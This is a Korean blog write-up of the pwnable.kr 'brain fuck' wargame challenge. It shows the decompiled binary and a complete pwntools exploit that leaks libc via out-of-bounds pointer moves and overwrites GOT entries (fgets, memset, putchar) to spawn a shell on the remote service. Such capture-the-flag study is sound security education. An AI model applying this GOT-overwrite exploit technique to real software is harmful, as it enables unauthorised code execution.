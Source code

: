 ```yaml
---
layout: post
date: 2023-01-15
title: "pwnable.kr brain fuck write-up"
tags: [pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```



## 소스코드 분석
---

{% raw %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t i; // [esp+28h] [ebp-40Ch]
  char input[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(input, 0, sizeof(input));
  fgets(input, 1024, stdin);
  for ( i = 0; i < strlen(input); ++i )
    do_brainfuck(input[i]);
  return 0;
}
```
{% endraw %}



{% raw %}
```c
int __cdecl do_brainfuck(char input)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = input - 43;
  switch ( input )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```
{% endraw %}


brainfuck 언어에서 `[`, `]` 명령어가 제외된 것을 확인할 수 있다.<br>
바이너리 안에서 포인터 값을 조작하며 쉘을 획득할 수 있을 것 같다.

명령어에 대한 설명은 다음과 같다.

| 문자 | 의미 |
|:----|:----|
| `>` | 포인터 증가 |
| `<` | 포인터 감소 |
| `+` | 포인터가 가리키는 바이트의 값 증가 |
| `-` | 포인터가 가리키는 바이트의 값 감소 |
| `.` | 포인터가 가리키는 바이트의 값을 ASCII 문자로 출력 |
| `,` | 포인터가 가리키는 바이트에 입력받은 문자의 ASCII 값을 넣음 |
| `[` | 포인터가 가리키는 바이트의 값이 0이면 짝이 되는 뒤쪽의 `]`로 이동 |
| `]` | 포인터가 가리키는 바이트의 값이 0이 아니면 짝이 되는 앞쪽의 `[`로 이동 |

_출처: [위키백과](https://ko.wikipedia.org/wiki/Brainfuck)_

## 익스플로잇
---

1024 바이트만 입력할 수 있기 때문에 포인터 값을 조작할 수 있는 범위내에서 조작해야 한다.

### 시나리오
1. `system` 함수의 실제 주소를 구한다.
2. `fgets` -> `system` got overwrite
3. `memset` -> `gets` got overwrite
4. `putchar` -> `main` got overwrite
5. `putchar`를 통해 `main` 함수를 호출하여 쉘을 획득한다.

`getchar` 함수로 하위 바이트를 조작하며 overwrite를 진행하였다.

`p`가 가리키는 값을 `p`로 변경하면 `getchar` 함수를 통해 하위 바이트를 쉽게 조작할 수 있다.


{% raw %}
```python
#bf.py
from pwn import *
# context.log_level = 'debug'

## p = process('./bf')
p = remote('pwnable.kr', 9001)
e = ELF('./bf')
libc = e.libc

payload = '<' * 0x20
payload += ',.>.>.>.'
payload += '>' * 0x65
payload += ',,>,>,>,'
payload += '>' * 0x6d
payload += ',,>,>,>,'
payload += '>' * 0x51
payload += ',,>,>,>,'
payload += '.'

p.sendlineafter(']\n', payload)

p.send('\x18')
puts_addr = u32(p.recvuntil('\xf7'))
libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
gets_addr = libc_base + libc.sym['gets']

log.info('puts: ' + hex(puts_addr))
log.info('libc_base: ' + hex(libc_base))

p.send('\x10')
p.send(p32(system_addr))

p.send('\x2c')
p.send(p32(gets_addr))

p.send('\x30')
p.send(p32(e.sym['main']))

p.sendlineafter(']\n', '/bin/sh')

p.interactive()
```
{% endraw %}




![0](/assets/img/2023-01-15-pwnable.kr-brain-fuck-write-up.md/0.png)




쉘을 획득했다.

